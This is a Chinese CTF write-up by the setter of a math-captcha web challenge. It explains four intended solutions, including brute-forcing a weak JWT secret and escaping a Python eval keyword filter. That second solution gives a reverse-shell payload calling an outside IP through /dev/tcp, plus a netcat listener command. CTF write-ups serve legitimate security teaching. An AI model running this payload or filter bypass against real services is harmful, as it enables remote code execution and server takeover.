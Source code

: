 # I am not a robot!

- 出题人: pyy

- 验题人: pyy

## 题目描述

为了证明自己的身份, 冲吧少年!

注: 这道题的flag格式可能为了好看(?)所以做了一些小小的改动, 不过不用担心, 你一眼就能认出来的

- tips: 可以思考一下`服务器是怎么实现这些功能的`? 如果让你写一个类似的程序 (不包括编写网站的知识, 就单纯把它看做是一个`给定输入输出格式的函数`, 要求实现这样的功能) 的话, 你会用什么方法实现?

- tips2: 本题的提示非常的良心, 一个提示, 四种思路, 36分你买不了吃亏, 买不了上当, 真正的物超所值! 赶紧快来抢购吧!

- tips3: 这题是用python写的, python是一门著名的`解释型语言`。

- tips4: 在这道题的世界里, 出题人毫无安全意识, 非常喜欢使用弱密码。

上轮提示:

- 服务器怎么知道你是谁?
- 服务器怎么知道你答出了几道题?
- 服务器怎么知道你正在答的是哪道题? 而它又怎么知道这题的答案?
- 服务器怎么判断答案的正确性?(譬如: 怎么处理除法的分数?)

- 注: 本题共有四种解题思路, 上面的问题想通一两点或许对解题也有很大的帮助

以及36分提示:

- cookie好像有很多种?
- 有没有可能, 它的过滤不是很全?
- ocr做不到的事情, 如果自己写一份字符匹配呢?(只有10个数字和符号的匹配)
- 其实500道的话......2个小时应该也可以算完?

## 出题思路

曾经有一道验证码题, 那个图是看一眼就很花, 然后就借鉴了一下验证码的思路出了这题。(但增加了各种奇怪的解法, 因为出题的时候正好想到了.jpg)

原本这道题是有`% | & ^`运算符的, 这样的话按照逻辑就会过滤掉这四个运算符, 至少shell弹不出来了, 现在还是能弹的。

## 解法

### 预期解法1(jwt)

![image-20220506173829929](readme.assets/image-20220506173829929.png)

本题用这个样的jwt来记录做出的题以及当前的题目地址, 进jwt.io翻译一下:

![image-20220506174005465](readme.assets/image-20220506174005465.png)

当做出一道题之后n会变成1。

那么目前要做的就是改n了, 尝试着改改看:

![image-20220506174155928](readme.assets/image-20220506174155928.png)

然后被发现了。这个就是jwt第三部分的作用。

尝试伪造jwt需要破解它的密码, 既然是弱密码那就走一个爆破。

`.\jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po -C -d ..\..\docs\dicts\fuzzDicts\passwordDict\top19576.txt`

![image-20220506180255729](readme.assets/image-20220506180255729.png)

然后拿admin去造一个jwt就好了:

![image-20220506180336720](readme.assets/image-20220506180336720.png)

### 预期解法2

应当使用分数回答除法题, 那么背后最省力的做法就是放个eval(我偷了懒, 你们也获得了一种新的解法, 双赢~)

随便打一个import进去, 发现有提示过滤了什么:

![image-20220506180748743](readme.assets/image-20220506180748743.png)

我们偷看一眼源码, 发现过滤了['eval','exec','import','system','getattr','open','kill','+','*'], 但没过滤`__builtins__`和`__dict__`, 那就好办了。

payload: `__builtins__["__imp""ort__"]("os").__dict__['po''pen']('bash -c "bash -i >& /dev/tcp/45.11.2.122/27420 0>&1"')`(不知道为啥本地测试的时候builtins后面要加dict, fastapi里跑起来的时候又不用了(也是本地)?)

此时开个内网穿透, 用linux中的nc执行`nc -lvp 42648`, 完成反弹shell。

![image-20220506191649364](readme.assets/image-20220506191649364.png)

`cat app.py`获取源码

![image-20220506191738798](readme.assets/image-20220506191738798.png)

其实上面的命令也可以直接`cat app.py`(ls啥的过程省略), 然后报答案错的那个页面会有回显的(不过需要f12看包的记录)。

### 预期解法3

做一份图像匹配然后自动交题, 主要是用正则获取图片链接下载, 然后本地计算后上交。

(仅一种思路, 之前做过但那次做的很麻烦且有很多bug, 所以摸鱼摸鱼)

### 预期解法4

500道题, 很快的啦~(
